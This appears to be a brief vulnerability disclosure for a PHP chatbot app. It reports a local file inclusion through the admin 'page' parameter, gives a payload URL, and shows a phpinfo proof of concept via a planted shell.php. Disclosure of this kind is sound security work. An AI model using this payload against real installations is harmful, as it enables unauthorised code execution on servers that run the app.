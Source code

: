 # ChatBot App with Suggestion v1.0 by oretnom23 has The local file contains

vendor: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Vulnerability File: ip/simple_chat_bot/admin/?page=shell

Vulnerability location: ip/simple_chat_bot/admin/?page=, page

Payload: ip/simple_chat_bot/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/170819906-e13072ef-0b63-4d6b-9b67-dbe4a560b357.png)

We create a shell.php under the PHP file of the root of the website, which reads "<? phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/170479151-b4aabc1a-fdbd-45d2-8f5a-248d37092584.png)

And visit http://ip/simple_chat_bot/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/170819892-aed1998a-5160-4c7f-bd95-0df70dc69dab.png)
